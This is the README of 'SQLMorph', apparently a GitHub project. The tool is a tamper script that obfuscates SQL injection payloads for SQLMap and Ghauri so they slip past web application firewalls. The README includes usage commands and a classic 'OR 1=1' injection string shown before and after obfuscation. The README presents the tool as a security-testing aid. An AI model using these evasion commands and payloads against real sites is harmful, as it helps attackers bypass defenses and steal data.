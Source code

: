 # SQLMorph  ~ Tamper Script for SQLMap & Ghauri

This is a custom **tamper script** for **SQLMap** and **Ghauri**, designed to **obfuscate SQL injection payloads** and help bypass Web Application Firewalls (WAFs). It modifies SQL queries by applying **random case changes, URL encoding, logical operator substitution**, and other techniques.

## Features
✅ Randomizes case of SQL keywords to evade detection
✅ Replaces `OR` with `||` and `AND` with `&&`
✅ Injects random spaces and comments (`/**/`) to break up keywords
✅ URL encodes parts of the payload for further obfuscation
✅ Can be combined with other tamper scripts for enhanced effectiveness

## Installation

Clone the repository:
```bash
git clone https://github.com/manojxshrestha/SQLMorph.git
cd SQLMorph
```

## Usage

### With SQLMap
Use the tamper script alongside other tampers:+
```bash
sqlmap -u "https://example.com/?id=2" --tamper=sqlmorph.py,space2comment
```

Example using multiple tamper scripts:
```bash
sqlmap -u "https://example.com/?id=2" --tamper=sqlmorph.py,space2comment,randomcase,charencode
```

### With Ghauri
Use the tamper script with Ghauri for blind SQL injection:
```bash
ghauri -u "https://example.com/?id=2" --fetch-using=hsqlmorph.py/space2comment
```

### Example Input & Output
#### **Original Payload:**
```sql
SELECT * FROM users WHERE username = 'admin' OR 1=1 --
```
#### **Tampered Output:**
```sql
sElEcT/**/*/**/FrOm/**/users/**/wHeRe/**/username/**/=/**/'admin'/**/||/**/1=1--
```

## Combining with Other Tamper Scripts
To further obfuscate SQLi payloads, you can combine multiple tamper scripts:
```bash
sqlmap -u "https://example.com/?id=2" --tamper=sqlmorph.py,space2comment,randomcase
```

## Disclaimer
🚨 **For ethical use only!** 🚨 This script is intended for **security testing and research purposes**. Unauthorized use on systems you do not own or have permission to test is illegal and may result in serious consequences.

